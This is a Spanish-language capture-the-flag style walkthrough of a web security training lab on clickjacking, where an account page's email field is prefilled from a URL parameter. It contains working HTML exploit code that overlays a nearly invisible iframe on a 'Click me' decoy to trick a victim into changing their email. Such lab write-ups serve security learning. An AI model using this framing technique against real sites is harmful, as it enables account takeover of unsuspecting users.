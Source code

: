 # Lab: Clickjacking with form input data prefilled from a URL parameter

This lab extends the basic clickjacking example in `Lab: Basic clickjacking with CSRF token protection`. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/fda2376e-c775-4d09-a76d-f9441833f9c0)

Objetivo del laboratorio:

Hacer que el usuario víctima, al hacer clic en un señuelo que dice "Click me", actualice su dirección de email por una controlada por el atacante, aprovechando que el formulario:

- Se puede prellenar con parámetros en la URL.

- Puede ser activado visualmente mediante clickjacking.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`, en el dashboard del usuario vemos que tenemos la funcionalidad de `Update email`:
![image](https://github.com/user-attachments/assets/68c2680e-3eed-4e72-ae2c-9781dd823585)

El siguiente paso es verificar que al ingresar una dirección de correo y presionar “Update email”, se envía un formulario prellenado, posiblemente con un CSRF token.

Cambiamos el mail por `test@test.com`:
![image](https://github.com/user-attachments/assets/4d0619fa-f003-4c81-9740-d70531fb93b6)

Observamos el código fuente y vemos lo siguiente:
![image](https://github.com/user-attachments/assets/6cd03705-1106-442e-9479-bd0372375e87)

Lo primero que podemos observar de esto es lo siguiente:

- Envía una petición POST al endpoint `/my-account/change-email` con 2 parámetros (`email` y `csrf="CVx76vmrM8PTmiqRpDDdESV1Z9GkHBQI"` )

Procedemos a validar si existe la precarga del formulario usando parámetros en la URL. Entonces, de ser cierto, el campo `email` en el formulario:
```html
<input required type="email" name="email" value="">
```
...puede ser prellenado vía parámetro GET. 
Esto indica que si accedemos a:
```text
https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker.com
```
...el servidor toma ese valor de email desde los parámetros de la URL y lo utiliza para prellenar el campo del formulario. Esto ocurre sin intervención del usuario, lo cual es fundamental para automatizar el ataque de clickjacking.

Hacemos la prueba y validamos que efectivamente existe la precarga del formulario usando parámetros en la URL:
![image](https://github.com/user-attachments/assets/7827582b-0a77-4b77-9053-9dc5948c1496)

Esto se puede combinar con un ataque de clickjacking para presentar un formulario listo para enviar, sobre el cual el usuario haga clic sin saberlo.


Al igual que en el laboratorio anterior, accedemos al Exploit server y procedemos a generar nuestrá página atacante.
Iniciamos ingresando el siguiente código:
```html
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![image](https://github.com/user-attachments/assets/1c02169f-7865-4d1f-ad44-f60f2c937d04)

Seguimos avanzando, ahora agregamos un "botón fake" usando el elemento `<div>` y le damos estilo tanto al `iframe` como al `div`:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 400px;
    left: 80px;
    z-index: 1;
  }
</style>

<div>Test me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![image](https://github.com/user-attachments/assets/9750adde-fb29-46de-8df2-adfd737749e0)


El siguiente paso es alinear el señuelo con el botón real:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 450px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>Click me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

Vemos que los elementos se superponen correctamente y efectivamente el mail está precargado en el formulario:
![image](https://github.com/user-attachments/assets/34eeab15-dd15-48de-89c2-5d67aafd8da4)


Ahora procedemos a bajar la opacidad y a cambiar el mail por un mail que no haya sido registrado:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 450px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>Click me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=prueba@prueba.com"></iframe>
```

Vemos que el `iframe` es imperceptible:
![image](https://github.com/user-attachments/assets/579c6c0c-6a26-4ead-a491-2ee0c6ad42bb)


Hacemos click en `Store` y luego en `Deliver exploit to victim` y resolvemos el laboratorio:
![image](https://github.com/user-attachments/assets/f66164af-07b1-4ff6-bd47-195cec0eee81)


---


